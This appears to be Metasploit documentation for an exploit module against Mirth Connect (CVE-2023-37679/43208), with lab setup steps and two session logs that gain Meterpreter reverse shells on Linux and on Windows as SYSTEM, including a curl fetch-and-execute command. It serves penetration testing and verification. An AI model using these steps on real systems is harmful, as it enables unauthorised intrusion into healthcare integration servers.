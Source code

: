 ## Vulnerable Application
A vulnerability exists within Mirth Connect due to its mishandling of deserialized data. This vulnerability
can be leveraged by an attacker using a crafted HTTP request to execute OS commands within the context of the
target application. The original vulnerability was identified by IHTeam and assigned CVE-2023-37679. Later,
researchers from Horizon3.ai determined the patch to be incomplete and published a gadget chain which bypassed
the deny list that the original had implemented. This second vulnerability was assigned CVE-2023-43208 and was
patched in Mirth Connect version 4.4.1. This module has been tested on versions 4.1.1, 4.3.0 and 4.4.0.

### Setup (Linux with Docker)

1. Run the application in docker: `docker run --name mirth-connect --rm -d -p 8443:8443 nextgenhealthcare/connect:4.4.0`

### Setup (Windows)

1. Download the desired release from the [GitHub page][1]
2. Install a Java runtime
3. Install Mirth Connect
    1. Accept all default values for every stage of the installation

## Verification Steps

1. Follow the steps from the Setup section to create a test instance
2. Start msfconsole
3. Run: `use exploit/multi/http/mirth_connect_cve_2023_43208`
4. Set the `RHOSTS`, `PAYLOAD` and payload-related options
5. Run the module

## Options

## Scenarios

### Mirth Connect 4.4.0 in Docker

Note that Python is not available in the docker container, so no Python payloads will work.

```
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Unix\ Command 
TARGET => Unix Command
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http
Display all 106 possibilities? (y or n)
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > exploit

[*] Command to run on remote host: curl -so /tmp/PFYkPcUX http://192.168.159.128:8080/jvE_gjDKxuQo86-91TitNQ; chmod +x /tmp/PFYkPcUX; /tmp/PFYkPcUX &
[*] Fetch Handler listening on 192.168.159.128:8080
[*] HTTP server started
[*] Adding resource /jvE_gjDKxuQo86-91TitNQ
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.1.1
[+] The target appears to be vulnerable. Version 4.1.1 is affected by CVE-2023-37679.
[*] Executing cmd/linux/http/x64/meterpreter/reverse_tcp (Unix Command)
[+] The target appears to have executed the payload.
[*] Client 192.168.159.128 requested /jvE_gjDKxuQo86-91TitNQ
[*] Sending payload to 192.168.159.128 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.159.128
[*] Meterpreter session 6 opened (192.168.159.128:4444 -> 192.168.159.128:49360) at 2024-01-26 17:11:37 -0500

meterpreter > getuid
Server username: mirth
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Debian 11.4 (Linux 6.6.12-200.fc39.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/connect
meterpreter >
```

### Mirth Connect 4.4.0 on Windows Server 2019

```
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set RHOSTS 192.168.159.10
RHOSTS => 192.168.159.10
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set TARGET Windows\ Command 
TARGET => Windows Command
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set PAYLOAD cmd/windows/powershell/x64/meterpreter/reverse_tcp
PAYLOAD => cmd/windows/powershell/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/mirth_connect_cve_2023_43208) > run

[*] Powershell command length: 4418
[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Detected target version: 4.4.0
[+] The target appears to be vulnerable. Version 4.4.0 is affected by CVE-2023-43208.
[*] Executing cmd/windows/powershell/x64/meterpreter/reverse_tcp (Windows Command)
[+] The target appears to have executed the payload.
[*] Sending stage (201798 bytes) to 192.168.159.10
[*] Meterpreter session 5 opened (192.168.159.128:4444 -> 192.168.159.10:60705) at 2024-01-26 17:10:20 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DC
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : MSFLAB
Logged On Users : 13
Meterpreter     : x64/windows
meterpreter > pwd
C:\Program Files\Mirth Connect
meterpreter > 
```

[1]: https://github.com/nextgenhealthcare/connect/releases


